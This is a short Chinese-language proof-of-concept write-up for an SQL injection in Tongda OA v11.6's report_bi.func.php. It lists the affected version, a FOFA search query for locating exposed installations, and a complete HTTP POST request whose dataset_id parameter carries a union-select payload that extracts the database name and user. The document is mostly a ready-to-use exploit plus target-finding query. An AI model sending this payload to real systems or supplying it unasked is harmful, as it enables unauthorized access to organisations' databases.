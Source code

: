 # 通达OA v11.6 report_bi.func.php SQL注入漏洞

## 漏洞描述

通达OA v11.6 report_bi.func.php 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

```
通达OA v11.6
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154236968](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201542062.png)

发送请求包执行SQL语句

```
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
```

![image-20220520154246274](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201542313.png)